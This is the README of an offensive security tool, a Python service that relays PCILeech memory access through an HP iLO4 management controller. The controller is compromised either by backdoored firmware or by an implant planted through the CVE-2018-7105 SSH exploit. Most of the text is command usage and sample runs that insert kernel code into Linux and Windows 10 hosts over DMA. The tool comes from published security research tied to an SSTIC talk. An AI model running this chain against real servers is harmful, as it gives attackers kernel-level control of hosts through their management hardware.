 PCILeech HP iLO4 Service
========================

This is a Python service relaying read and write queries from PCILeech to an HP iLO4 device flashed with a modified firmware.

Usage
-----

	$ python run.py -h
	usage: run.py [-h] [-m MODULE] [-u USER] [-p PASSWORD] [-P PORT] [-v]
	              remote_addr

	HP iLO4 PCILeech service

	positional arguments:
	  remote_addr           IP address of the target iLO4 interface

	optional arguments:
	  -h, --help            show this help message and exit
	  -m MODULE, --module MODULE
	                        Module to use (backdoor, ssh_exploit)
	  -u USER, --user USER  user name
	  -p PASSWORD, --password PASSWORD
	                        SSH password
	  -P PORT, --port PORT  SSH port
	  -v, --verbose         verbosity

Modules
-------

#### backdoor

This modules uses the modified firmware developped as a demonstration for the [`SSTIC` presentation](https://www.sstic.org/2018/presentation/backdooring_your_server_through_its_bmc_the_hpe_ilo4_case/).

Tools to build and flash this firmware are available on the [ilo4_toolbox repository](https://github.com/airbus-seclab/ilo4_toolbox).

	/pcileech_hpilo4_service$ python run.py -m backdoor 192.168.42.78

	---

	$ time ./pcileech kmdload -vvv -device rawtcp -device-addr 127.0.0.1 -device-port 8888 -kmd LINUX_X64_48 

	 Current Action: Scanning for Linux kernel base
	 Access Mode:    DMA (hardware only)
	 Progress:       748 / 268435422 (0%)
	 Speed:          6 MB/s
	 Address:        0x000000002FA00000
	 Pages read:     191488 / 68719468032 (0%)
	 Pages failed:   0 (0%)

	 Current Action: Verifying Linux kernel base
	 Access Mode:    DMA (hardware only)
	 Progress:       32 / 32 (100%)
	 Speed:          1 MB/s
	 Address:        0x0000000031A00000
	 Pages read:     8192 / 8192 (100%)
	 Pages failed:   0 (0%)
	KMD: Code inserted into the kernel - Waiting to receive execution.
	KMD: Execution received - continuing ...
	KMD: Successfully loaded at address: 0x76680000

	real    2m38.038s

#### ssh_exploit

This modules uses the in-memory implant installed by the SSH service exploit (CVE-2018-7105) written by [IooNag](https://www.twitter.com/IooNag).

The exploit is available on the [ilo4_toolbox repository](https://github.com/airbus-seclab/ilo4_toolbox) and should be run before using this service.

Dumping large amounts of memory using this modules is not recommended. Therefore, don't use it for a Linux system since dumping 16MB of kernel memory is required.

	/pcileech_hpilo4_service$ python run.py -v -m ssh_exploit -u admin -p password 192.168.42.78

	---

	$ time ./pcileech kmdload -vvv -device rawtcp -device-addr 127.0.0.1 -device-port 8888 -kmd WIN10_X64

	KMD: Code inserted into the kernel - Waiting to receive execution.
	KMD: Execution received - continuing ...
	KMD: Successfully loaded at address: 0x7fffe000

	real	1m0.826s
	user	0m0.000s
	sys	0m0.010s

